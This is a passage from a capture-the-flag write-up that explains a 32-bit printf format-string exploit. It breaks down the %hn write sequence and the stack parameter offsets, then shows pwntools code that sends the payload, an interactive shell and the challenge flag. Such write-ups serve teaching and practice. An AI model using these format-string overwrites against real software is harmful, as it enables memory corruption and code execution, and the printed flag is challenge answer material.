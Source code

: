 From left to right:

* emit `%16896x` spaces and write (`16896` = `0x4200`) to the address `\xccu\x80\xff` at parameter 19 (`%19$hn`)
* emit `%3791x` spaces and write (`16896` + `3791` = `0x50cf`) to the address `\xd4u\x80\xff` at parameter 20 (`%20$hn`)
* emit `%40627x` spaces and write (`16896` + `3791` + `40627` = `0xef82`) to the address `\xceu\x80\xff` at parameter 21 (`%21$hn`)
* emit `%20x` spaces and write (`16896` + `3791` + `40627 + 20` = `0xef96`) to the address `\xd6u\x80\xff` at parameter 22 (`%22$hn`)
* emit a space, this was just added by the algorithm above to pad out as describe above
* emit the four address referenced by `%XX$hn`

> This example above will change on every run because of ASLR.
>
> Notice how the value written increases, per the aforementioned explanation. 

The `%XX$hn` enumeration starts at 19.  _Why?_.

Parameters to (x86 32-bit) `printf` are all on the stack and usually (in my experience) start from the address below the stack pointer and go down.  Also (in my experience) the start of the format string is at parameter 6 (same with x86_64).  So starting from the `0xffffd628│+0x0018: 0x41000000 (???"A")` line in the stack diagram above and counting down to `NNNN`, `OOOO`, `PPPP`, `QQQQ` (the location of the last 4 stack aligned parameters) we end up at 19 (`NNNN`).  You can use math if you like, e.g.:

```python
import math
math.ceil(65 / 4) + 6 - 4
```

Basically for x86 (4 byte stack), the number of characters that can be used for your exploit, divided by 4 bytes/stack line + parameter 6 for the start of the format string, less the number of pointers you have to write to the end.  In this example the value is `19`.


#### Get a shell, get the flag

All the is left to do is send the payload:

```python
p.sendline(payload)
p.interactive()
```


#### Output

```

... a screen full of all them sweet sweet spaces emitted -- you asked for it ...

1            e8fc8d57 \xfc\xb7\xc5\xff\xb8\xc5\xff\xfe\xb7\xc5\xff\x06\xc5\xff
$ cat flag.txt
WPI{Th3re_is_an_idea_of_4_Pa7rick_BatemaN}
```


#### Flag

```
WPI{Th3re_is_an_idea_of_4_Pa7rick_BatemaN}
```
